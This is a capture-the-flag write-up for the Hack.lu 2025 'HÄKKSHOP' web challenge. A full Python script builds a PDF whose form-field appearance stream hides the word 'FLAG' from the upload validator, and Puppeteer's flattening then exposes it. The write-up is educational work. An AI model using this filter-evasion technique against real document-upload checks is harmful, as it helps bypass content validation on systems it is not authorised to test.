




## Hack.lu CTF 2025 - HÄKKSHOP 172 Write-up



### Step 1: Initial Analysis and Source Code Review

The challenge provides a web application mimicking an IKEA-like store called FLUX, with a customer support section for returns. The returns page allows uploading a filled-in PDF return form. The goal is to obtain the flag, which is hidden in the application's logic.

We are given the source code of the Node.js application using Express, pdfjs, and Puppeteer. Key parts:

- PDF validation in `validate_pdf()` checks text content and annotations for unreleased products like "FLAG".
- If valid, it flattens the PDF using Puppeteer (with JavaScript disabled) and renders it.
- Then, in `get_did_you_know()`, it extracts text from the flattened PDF and checks for product names, including "FLAG", which reveals the flag if present.

The vulnerability: Validation reads text and field values, but not appearance streams of form fields. However, when flattening with Puppeteer, the appearance becomes part of the text content, extractable later.



### Step 2: Crafting the Exploit PDF

To bypass validation, create a PDF with a text field widget where:

- Field value (`/V`) is empty (no "FLAG" in validation).
- Custom appearance stream (`/AP /N`) draws "FLAG" as text.

Use ReportLab to generate a base PDF mimicking the return form, then pdfrw to add the widget annotation.

The exploit script (`exploit_pdf.py`):

```python
from reportlab.pdfgen import canvas
from reportlab.lib.colors import yellow, blue, black
import pdfrw

# Step 1: Create the base PDF using reportlab
def create_base_pdf(filename):
    c = canvas.Canvas(filename, pagesize=(612, 792))  # Standard US Letter size in points (8.5x11 inches)

    # Draw the top logo (approximating the image)
    c.setFillColor(blue)
    c.roundRect(100, 700, 150, 50, 10, stroke=0, fill=1)
    c.setFont("Helvetica-Bold", 36)
    c.setFillColor(yellow)
    c.drawString(110, 710, "FLUX")

    # Draw the text content
    c.setFont("Helvetica", 14)
    c.setFillColor(black)
    c.drawString(100, 660, "Return Form")

    c.setFont("Helvetica", 12)
    c.drawString(100, 620, "Not happy with your purchase?")
    c.drawString(100, 580, "Please write us which products you want to return, and why you did not like them.")
    c.drawString(100, 540, "We are always trying to improve our service.")
    c.drawString(100, 500, "A customer support agent will happily help you out in 3-5 business days:")

    # Bottom thank you
    c.drawString(100, 100, "Thank you for shopping at")
    c.setFillColor(blue)
    c.roundRect(300, 90, 60, 20, 5, stroke=0, fill=1)
    c.setFont("Helvetica-Bold", 12)
    c.setFillColor(yellow)
    c.drawString(305, 93, "FLUX")

    c.save()

# Step 2: Add the exploit form field using pdfrw
def add_exploit_field(input_pdf, output_pdf):
    reader = pdfrw.PdfReader(input_pdf)
    page = reader.pages[0]

    # Create Annots if not exists
    annots_key = pdfrw.PdfName.Annots
    if annots_key not in page:
        page[annots_key] = pdfrw.PdfArray()
    annots = page[annots_key]

    # Create the widget annotation (text field)
    widget = pdfrw.PdfDict()
    widget[pdfrw.PdfName.Type] = pdfrw.PdfName.Annot
    widget[pdfrw.PdfName.Subtype] = pdfrw.PdfName.Widget
    widget[pdfrw.PdfName.Rect] = pdfrw.PdfArray([100, 400, 500, 450])  # Position in the blank area (adjust as needed)
    widget[pdfrw.PdfName.FT] = pdfrw.PdfName.Tx  # Text field
    widget[pdfrw.PdfName.T] = pdfrw.PdfString.encode('products')  # Field name
    widget[pdfrw.PdfName.V] = pdfrw.PdfString.encode('')  # Empty value
    widget[pdfrw.PdfName.DV] = pdfrw.PdfString.encode('')  # Empty default value
    widget[pdfrw.PdfName.DA] = pdfrw.PdfString.encode('/Helv 12 Tf 0 g')  # Default appearance (not used since custom AP)
    widget[pdfrw.PdfName.F] = 4  # Annotation flags: 4 = Print

    # Create the appearance dictionary
    ap_dict = pdfrw.PdfDict()
    ap_n = pdfrw.PdfDict()
    ap_n[pdfrw.PdfName.Type] = pdfrw.PdfName.XObject
    ap_n[pdfrw.PdfName.Subtype] = pdfrw.PdfName.Form
    ap_n[pdfrw.PdfName.FormType] = 1
    ap_n[pdfrw.PdfName.BBox] = pdfrw.PdfArray([0, 0, 400, 50])  # Width and height of the field
    ap_n[pdfrw.PdfName.Matrix] = pdfrw.PdfArray([1, 0, 0, 1, 0, 0])

    # Resources for fonts
    resources = pdfrw.PdfDict()
    fonts = pdfrw.PdfDict()
    helv = pdfrw.PdfDict()
    helv[pdfrw.PdfName.Type] = pdfrw.PdfName.Font
    helv[pdfrw.PdfName.Subtype] = pdfrw.PdfName.Type1
    helv[pdfrw.PdfName.BaseFont] = pdfrw.PdfName.Helvetica
    fonts[pdfrw.PdfName.Helv] = helv
    resources[pdfrw.PdfName.Font] = fonts
    ap_n[pdfrw.PdfName.Resources] = resources

    # Content stream to draw "FLAG"
    stream_content = 'q\nBT\n/Helv 12 Tf\n0 g\n10 20 Td\n(FLAG) Tj\nET\nQ'
    ap_n.stream = stream_content

    ap_dict[pdfrw.PdfName.N] = ap_n

    widget[pdfrw.PdfName.AP] = ap_dict

    # Make widget indirect if necessary
    widget.indirect = True

    # Add to annotations
    annots.append(widget)

    # Add to AcroForm
    acro_key = pdfrw.PdfName.AcroForm
    if acro_key not in reader.Root:
        reader.Root[acro_key] = pdfrw.PdfDict()
    acro = reader.Root[acro_key]
    fields_key = pdfrw.PdfName.Fields
    if fields_key not in acro:
        acro[fields_key] = pdfrw.PdfArray()
    acro[fields_key].append(widget)
    acro[pdfrw.PdfName.NeedAppearances] = True

    # Write the modified PDF
    pdfrw.PdfWriter().write(output_pdf, reader)

# Main execution
base_pdf = 'base.pdf'
modified_pdf = 'exploit_return_form.pdf'

create_base_pdf(base_pdf)
add_exploit_field(base_pdf, modified_pdf)

print(f"Modified PDF created: {modified_pdf}")
print("Upload this PDF to the server to get the flag.")
```

Run the script to generate `exploit_return_form.pdf`.



### Step 3: Uploading the PDF and Retrieving the Flag

Upload the generated PDF via the returns form. The validation passes since "FLAG" isn't in text or values. Puppeteer flattens it, embedding "FLAG" in the content.

The response shows "did you know" facts, including the flag for "FLAG".



### Flag
Flag: `flag{1kea3n5ch_15_our_new_hold_music}`